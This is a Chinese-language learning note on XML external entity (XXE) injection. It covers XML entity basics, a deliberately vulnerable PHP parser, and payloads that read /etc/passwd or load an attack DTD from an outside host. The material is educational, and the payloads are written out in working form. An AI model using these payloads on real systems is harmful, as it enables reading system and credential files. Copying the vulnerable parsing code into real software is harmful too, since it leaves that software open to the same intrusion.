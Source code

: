 # XML实体注入漏洞攻与防 笔记


# 参考：

继续看松牛的文章学习新姿势。

[XML实体注入漏洞攻与防
](http://mp.weixin.qq.com/s/0eyuG3zEWluAD9v7qvw8PQ)

---

# XML基础

XML是一种用于标记电子文件使其具有结构性的**标记语言**，可以用来标记数据、定义数据类型，是一种允许用户**对自己的标记语言进行定义的源语言**。

XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。


当从打印输出读取或以电子形式处理文档时，元素能够帮助更好地理解文档。**元素的描述性越强，文档各部分越容易识别**。自从出现标记至今，带有标记的内容就有一个优势，即在计算机系统缺失时，仍然可以通过标记理解打印出来数据。

> xml跟json格式的数据一样，都是便于传输的数据的格式。相似之处在于json键值对对应得很明确而xml每个数据都有标签标记着。

# XML实体注入基础

简单了解XML以后，我们知道要在XML中使用**特殊字符**，需要使用**实体字符**，也可以将一些可能多次会用到的短语(比如公司名称)设置为实体，然后就可以在内容中使用。

如下就声明了一个名为coname值为QiHoo 360的实体。
`<!DOCTYPE UserData [ <!ENTITY coname "QiHoo 360"> ]>`

要在XML中使用实体，使用`&coname;`即可。


## 危害：
当允许引用外部实体时，通过构造恶意内容，可导致

- 读取任意文件
- 执行系统命令
- 探测内网端口
- 攻击内网网站

等危害。

## 简单的漏洞环境

```
<?php


$xml = file_get_contents("php://input");
$data = simplexml_load_string($xml);

foreach ($data as $key => $value){
    echo "您的" . translate($key)."是".$value."<br>";
}

function translate($str){
    switch ($str){
        case "name":
            return "名字";
        case "wechat":
            return "微信";
        case "public_wechat":
            return "微信公众号";
        case "website":
            return "网站";
    }
}

```

假设这里我们希望用户输入的是：


```
<?xml version="1.0" encoding="utf-8" ?>
<user>
	<name>Jerry</name>
	<wechat>tom</wechat>
	<public_wechat>haha</public_wechat>
	<website>www.xxx.com</website>
</user>
```

然后就可以返回如下页面：

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fia0by5npzj30qq0o6gp3.jpg)


# XML实体注入漏洞的几种姿势
方法1：

`<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>`

方法2：

`<!DOCTYPE a [ <!ENTITY %d SYSTEM "http://www.hackersb.cn/attack.dtd"> %d; ]>`


方法3：
`<!DOCTYPE a SYSTEM "http://www.hackersb.cn/attack.dtd">`


其中attack.dtd的内容为：

`<!ENTITY b SYSTEM "file:///etc/passwd">`

## 读取本地任意文件
利用xml实体注入我们可以读取本地任意文件。

读取任意文件的思路大概就是**引入一个实体**，**实体内容为本地文件**。

构造payload如下：

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<user>
	<name>Jerry</name>
	<wechat>tom</wechat>
	<public_wechat>haha</public_wechat>
	<website>www.xxx.com</website>
</user>

```

